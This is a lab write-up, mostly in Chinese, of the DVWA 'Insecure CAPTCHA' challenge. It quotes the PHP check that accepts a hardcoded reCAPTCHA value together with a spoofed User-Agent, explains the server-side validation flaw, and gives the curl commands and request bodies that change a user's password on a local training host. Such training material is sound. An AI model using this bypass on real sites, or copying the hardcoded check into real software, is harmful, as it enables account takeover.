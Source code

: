 # Insecure CAPTCHA

>Objective: Your aim, change the current user's password in an automated manner because of the poor CAPTCHA system.

### 觀察

看一下 request body
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0ea01d5e-cde8-4806-b365-5f98f544d384/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144358Z&X-Amz-Expires=86400&X-Amz-Signature=9cae85a6b168adb247fab9e93fcb046ad0e9ee5f7b67bc981456c19c6bcf06ed&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

如果正常進行驗證的話，這個值會是從 google 的 server 取得的

```
g-recaptcha-response
```

從 source panel 中搜尋 token 就可以找到一些提示和 `user_token`

```bash
**DEV NOTE**   Response: 'hidd3n_valu3'   &&   User-Agent: 'reCAPTCHA'   **/DEV NOTE**
```

很明顯的要我們改 `User-Agent` 和另外一個意義不明的 hidd3n_valu3
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bcb37dd2-07bf-4964-ae98-01099d355fd1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144456Z&X-Amz-Expires=86400&X-Amz-Signature=d2990c1ac60f849388ea72eba4c4409f3beada8589c026d451d616693461f0ee&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

如果想故意繞過 re**CAPTCHA，就一定要偽造** `g-recaptcha-response` 這個值，但不透過 re**CAPTCHA 驗證不可能拿得到它，因此就可以懷疑題目是不是要我們把那個意義不明的** `hidd3n_valu3` 填入裡面，再加上還要修改 User Agent

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/5d5fed72-a4bd-4d0b-a0c3-5bbc5e6fb0bc/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144436Z&X-Amz-Expires=86400&X-Amz-Signature=ec6867c76856971f5e7c5573b042eb5841f42fe7dd9d87c07256e224a2c773a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Source code review

後來看了 source code 才確定真的是要將 hidd3n_valu3 放入之前觀察到的 `g-recaptcha-response` 欄位裡

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d68ff088-95cb-4421-8e09-fae13009204d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144601Z&X-Amz-Expires=86400&X-Amz-Signature=edd43885350c656a68d6261ab008dee68639e11e5645fbdfd2d6eaf755637d85&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

先看到  `recaptcha_check_answer()` 這個 function，但並沒有被放在提示裡，只能推斷裡面應該是去戳 Google 驗證 reCAPTCHA 的 API，如果是這樣的話那接下來就會進到下方的 `$_POST[ 'g-recaptcha-response' ]` 和 `$_SERVER[ 'HTTP_USER_AGENT' ]` 判斷

最明顯的缺失是這部分:

```php
if (
    $resp || 
    (
        $_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
        && $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
    )
){
```

有幾個缺失:

- $_POST[ 'g-recaptcha-response' ] 裡的值不是正常的 `garetapcta-response` ，而是自己設定的值
- 應該要用 `&&` 代替 `||` ，並且要使用別的方式代替後半部的 user 身份驗證 e.g email or 簡訊

> After you get the response token, you need to verify it within two minutes with reCAPTCHA using the following API to ensure the token is valid.
>

參考 Google reCAPTCHA 的[文件](https://developers.google.com/recaptcha/docs/verify)中有提到，server 要在兩分鐘內驗證 response token

因此這是一個 Server Side Validation 的缺失

### 驗證

試試看是否能成功 bypass reCAPTCHA

了解來龍去脈後，就可以開始準備材料了

`User-Agent`

```php
User-Agent: reCAPTCHA
```

`Request Body`

```php
step=1
&password_new=1111
&password_conf=1111
&g-recaptcha-response=hidd3n_valu3
&user_token=3d10f1b5d1b01e89d667aeb3b77777aa
&Change=Change
```

### Browser

先在瀏覽器直接試試看

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81566333-f8a5-453e-b234-18b702678a91/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144635Z&X-Amz-Expires=86400&X-Amz-Signature=d2f0bf63e878aebfae1731767e2cbdf7bb0de8195bf1d5ae9078fc0022ae48d9&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

要填入的欄位有三個，分別是 User Agent
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a95af2cc-9377-4aba-9e29-52b2c9a99898/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144652Z&X-Amz-Expires=86400&X-Amz-Signature=5fc87962a425110eba342df52c27e1392165205ec5a8821cb3cd854b39f05c27&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

g-recaptcha-response
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/113def55-cf7a-4ff0-9e12-4f249e5b6aad/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144711Z&X-Amz-Expires=86400&X-Amz-Signature=fb550556fbabdf32fefe5db56d2a7e75ca6d428c8dda000ec6572bf38626bac4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

user_token
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b9d7268d-44ec-48a4-bd27-b51f1094d155/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144723Z&X-Amz-Expires=86400&X-Amz-Signature=de4696ca6751bed35716617a3bacca2f7e2d381ba36f3e4cf731910fd317dda1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

成功修改密碼
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ef394582-87d1-42c9-911f-79f31fc2bf01/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144735Z&X-Amz-Expires=86400&X-Amz-Signature=b68d65a224bd136700dcafe6851011c2fa18b979be0561c3a5365fd4b0171590&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

來確認一下已經送出的 request

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/cd6553b5-0727-4df3-a5d5-cae8c0ebc99a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T144835Z&X-Amz-Expires=86400&X-Amz-Signature=6820cfb9e02a9e9a96afb08d271381afb838d2b04588c41f257bf2f1b542b44b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```json
{
	"step": "1",
	"password_new": "1111",
	"password_conf": "1111",
	"g-recaptcha-response": "hidd3n_valu3",
	"user_token": "1762a90d0d0524fe11725d6a5fd9ecec",
	"Change": "Change"
}
```

### curl

```bash
curl -v -L \
-c cookies.txt -b cookies.txt \
-X POST $HOST \
-H "User-Agent: ${USER_AGENT}" \
--data-raw \
"step=1&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&g-recaptcha-response=${G_RES}&user_token=${TOKEN&}Change=Change"
```

```bash
curl -v -L \
--cookie "PHPSESSID=4774b7d45d62876f2f8a2e93ba5e7640;security=high" \
-X POST http://dvwa.localtest/vulnerabilities/captcha/ \
-H "User-Agent: reCAPTCHA" \
--data-raw \
"step=1&password_new=1111&password_conf=1111&g-recaptcha-response=hidd3n_valu3&user_token=54fb2e161e4428868c54085b6764dfe3&Change=Change"
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ff9d5f58-68ef-4a44-af4a-c0d5b55d5ee4/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220221%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220221T145122Z&X-Amz-Expires=86400&X-Amz-Signature=7dbcfdbf9a78d158cd7716d3a6cbadf65e76ca6247539859049eddea644ab08a&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
